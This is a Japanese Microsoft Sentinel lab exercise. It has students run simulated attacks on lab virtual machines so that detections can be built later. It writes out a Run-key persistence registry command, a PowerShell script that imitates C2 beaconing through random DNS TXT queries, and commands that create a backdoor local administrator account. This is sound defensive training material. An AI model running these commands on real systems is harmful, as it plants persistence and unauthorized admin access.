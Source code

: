 ﻿---
lab:
    title: '演習 5 - 攻撃の実施'
    module: 'モジュール 7 – Microsoft Sentinel を使用して脅威を検出し、調査を実行する'
---

# モジュール 7 - ラボ 1 - 演習 5 - 攻撃の実施


### タスク 1: Defender for Endpoint によって構成した Windows を攻撃します。

このタスクでは、Microsoft Defender for Endpoint が構成されているホストに対して攻撃を実行します。

1. 管理者として WIN1 仮想マシンにログインします。パスワードは**Pa55w.rd** です。  

2. タスク バーの検索で、*Command* と入力します。  検索結果にコマンド プロンプトが表示されます。  コマンド プロンプトを右クリックして、**「管理者として実行」** を選択します。表示されるユーザー アカウント制御ウィンドウで、「**はい**」を選択して、アプリの実行を許可します。

3. コマンドプロンプトで、各行の後に Enter キーを押して、各行にコマンドを入力します。

```Command
cd \
mkdir temp
cd temp
```
4. 攻撃 1 -このコマンドをコピーしてコマンド プロンプト アプリに実行します。

```Command
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

5. 攻撃 3 -次のコマンドをコピーして実行します。

```Command
notepad c2.ps1
```
「**はい**」を選択して新しいファイルを作成し、以下の PowerShell スクリプトを *c2.ps1* にコピーします。

>**注:** 仮想マシンへの貼り付けには長さの制限がある場合があります。手順から直接コピーすることができない場合、このコードを 3 つのセクションに貼り付けて、すべてのスクリプトが仮想マシンに貼り付けられるようにします。  スクリプトがメモ帳の *c2.ps1* ファイル内のこれらの手順のように見えることを確認してください。

```PowerShell
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)

$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)

$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout

    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
         $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }

    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```

メモ帳のメニューで、「**ファイル**」を選択し、次に「**保存**」を選択します。「コマンド プロンプト」ウィンドウで、各行にコマンドを入力し、各行の後に「Enter」キーを押します。**注:** 解決エラーが表示されます。これは予測されていることです。

```Command
powershell
.\c2.ps1
```

>**重要:** ウィンドウを閉じないでください。このコマンド/パワーシェルスクリプトをバックグラウンドで実行します。コマンドは、数時間ログエントリを生成する必要があります。このスクリプトの実行中に次のタスクや次の演習に進むことができます。このタスクで作成したデータは、後で脅威の捜索ラボで使用します。このプロセスでは、大量のデータや処理を作成することはありません。


### タスク 2: Sysmon で構成された攻撃ウィンドウ

このタスクでは、セキュリティ イベント コネクタが構成され、Sysmon が構成されているホストに対して攻撃を実行します。

1. 管理者として WIN2 仮想マシンにログインします。パスワードは**Pa55w.rd** です。  

2. タスク バーの検索で、*CMD* と入力します。  検索結果にコマンド プロンプトが表示されます。コマンド プロンプトを右クリックして、**「管理者として実行」** を選択します。表示されるユーザー アカウント制御ウィンドウで、「**はい**」を選択して、アプリの実行を許可します。

3. コマンドプロンプトで、各行の後に Enter キーを押して、各行にコマンドを入力します。

```Command
cd \
mkdir temp
cd \temp
```

4. 攻撃 1 - このコマンドをコピーしてコマンド プロンプト アプリに実行します。

```Command
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

>**注:** WIN1と同様な、同じ「*永続化*」戦術を使用していますが、次の演習では異なる検出を使用します。

5. 攻撃 2 - このコマンドをコピーして実行し、各行の後に Enter キーを押して各行にコマンドを入力します。

```Command
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

## 演習 6 に進みます。
